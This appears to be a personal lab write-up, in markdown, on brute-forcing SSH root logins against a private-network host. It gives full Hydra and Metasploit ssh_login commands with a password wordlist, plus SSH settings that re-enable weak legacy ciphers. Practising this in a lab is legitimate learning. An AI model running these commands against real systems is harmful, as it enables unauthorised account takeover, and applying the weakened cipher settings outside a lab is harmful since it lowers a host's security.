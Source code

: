 #bruteforceattack #hydra #metasploit
# Brute Force Attack


1. Use Hydra

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.68.6 -t 4 -V

```

I encountered an issue in running Hydra. First is the incompatibility with the cipher used, so I edited the /etc/ssh/ssh_config to accept old ciphers


![Alt](../../Images/usinghydra.png)

From https://medium.com/@sany4sec/ssh-error-in-hydra-while-brute-forcing-b148a61752e2 - I added the following key exchange

```
Host *  
  Ciphers +3des-cbc,aes128-cbc,aes192-cbc,aes256-cbc  
  KexAlgorithms +diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1,diffie-hellman-group14-sha1  
  HostKeyAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com  
  PubkeyAcceptedAlgorithms +ssh-rsa,ssh-rsa-cert-v01@openssh.com,ssh-dss,ssh-dss-cert-v01@openssh.com
```

After that, it runs to Out of Memory Error. It turns out that I need to execute the steps here in this link. As it turns out, libssh doesn't support +,-,^ signs in the config. Luckily it's just been implemented upstream, on the master

https://www.kali.org/docs/general-use/ssh-configuration/

This setting can be changed easily using the `kali-tweaks` tool. Simply:

- Open a terminal and run `kali-tweaks`.
- From there, select the _Hardening_ menu.
- Now you can choose between **Strong Security** _(the default)_ and **Wide Compatibility**.

_Note: This is achieved by creating or deleting the configuration file `/etc/ssh/ssh_config.d/kali-wide-compat.conf`._

![Alt](../../Images/refissuehydra.png)


The end result

![Alt](../../Images/hydraresult.png)


==================================================

## Use the metasploit

1. Look for ssh login

```
msfconsole
```

```
search ssh login
```

You can see there the `11 auxiliary/scanner/ssh/ssh_login`

2. Select the `auxiliary/scanner/ssh/ssh_login`
```
use 11
```

3. Check options for settings
```
options
```

![Alt](../../Images/metasploitsshlogin.png)


4. We will set for now username as `root` and password as `pass_file(option from the options command) /usr/share/wordlists/metasploit/unix_passwords.txt
```
set username root
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
```
5. Set the RHOSTS
```
set rhosts 192.168.68.6
```
6. Set threads
```
set threads 10
```
8. execute `options` one more time to check the settings.

![Alt](../../Images/metasploitoptions.png)


9. Set verbose to true to check run logs
```
set verbose true
run
```

![Alt](../../Images/runmsf.png)

